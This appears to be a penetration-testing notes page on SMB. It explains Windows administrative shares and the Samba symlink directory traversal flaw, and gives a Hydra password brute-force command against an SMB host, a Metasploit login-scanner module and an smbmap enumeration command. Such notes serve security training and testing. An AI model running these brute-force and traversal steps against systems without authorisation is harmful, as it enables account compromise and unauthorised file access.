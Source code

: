 ### Administrative Shares

There are also some special default administrative shares which are used by system administrators and Windows itself:

• \ComputerName\C$ lets an administrator access a volume on the local machine. Every volume has a share (C$, D$, E$, etc.)

• \ComputerName\admin$ points to the windows installation directory

• \ComputerName\ipc$ is used for inter-process communication. You cannot browse it via Windows Explorer

​​You can test volume shares and the admin$ share on your computer by entering the following on your Windows Explorer address bar

## SMB Login Brute Force

```
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://172.16.2.11 -t 1 -vV -I
use auxiliary/scanner/smb/smb_login
```

## Symlink Directory Traversal

#### The vulnerability essentially allows an attacker to create a symbolic link to the root (/) partition from a writeable share ultimately allowing for read access to the entire file system outside of the share directory. Although this vulnerability can be exploited using a modified “smbclient,” Metasploit contains a module for exploitation, so we’ll use that for our purposes.

A pre-requisite to this particular vulnerability requires that the Samba server contains a writeable share and that the “widelinks” parameter in the smb.conf file is set with a value of “yes.” We can use the following “smbmap” command to determine shares available to us on a Samba server, in addition to determining whether or not we have read or write permissions to a given share.

{% hint style="info" %}
If you got error authenticating upgrade impacket
{% endhint %}

```
pip3 install --upgrade impacket
```

```
smbmap -H 192.168.13.29
```

![](<../../.gitbook/assets/image (276) (1) (1).png>)

